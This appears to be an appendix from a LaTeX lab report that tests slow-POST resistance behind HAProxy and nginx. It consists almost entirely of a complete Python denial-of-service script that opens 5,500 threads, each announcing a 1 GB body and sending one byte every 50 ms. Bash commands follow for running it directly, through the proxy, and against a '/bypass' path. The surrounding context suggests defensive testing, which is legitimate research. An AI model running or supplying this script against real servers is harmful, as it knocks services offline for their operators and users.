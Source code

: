 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Slow POST Threads Attack Script}
\begin{lstlisting}[language=python, caption=Slow POST Threads Attack Script]
import socket
import time
import threading
import sys

# Usage: python3 slow_post_threads.py [proxy|direct] [protected|bypass]
target = sys.argv[1] if len(sys.argv) > 1 else "proxy"
mode = sys.argv[2] if len(sys.argv) > 2 else "protected"

if target == "proxy":
    host = "haproxy"
    port = 8081
else:
    host = "nginx-server"
    port = 80

path = "/" if mode == "protected" else "/bypass"

content_length = 1000000000
num_threads = 5500

def slow_post(thread_id):
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(5)
        sock.connect((host, port))
        print(f"[{thread_id}] Connected to {host}:{port} ({mode})")

        headers = (
            f"POST {path} HTTP/1.1\r\n"
            f"Host: {host}\r\n"
            f"Content-Length: {content_length}\r\n"
            f"Content-Type: application/x-www-form-urlencoded\r\n"
            f"Connection: keep-alive\r\n\r\n"
        )
        sock.send(headers.encode())

        while True:
            sock.send(b"A")
            time.sleep(0.05)
    except Exception as e:
        print(f"[{thread_id}] Error: {e}")

print(f"[+] Starting {num_threads} slow POST threads to {host}:{port}{path}")
for i in range(num_threads):
    threading.Thread(target=slow_post, args=(i,), daemon=True).start()

while True:
    time.sleep(10)
\end{lstlisting}

\subsubsection{Script Usage Examples}
\begin{lstlisting}[language=bash]
# Direct attack against nginx-server (Phase 1)
python3 slow_post_threads.py direct protected

# Bypass attack through HAProxy (Phase 2 - Attack succeeds)
python3 slow_post_threads.py proxy bypass

# Protected attack through HAProxy (Phase 2 - Attack fails)
python3 slow_post_threads.py proxy protected
\end{lstlisting}
\end{document}
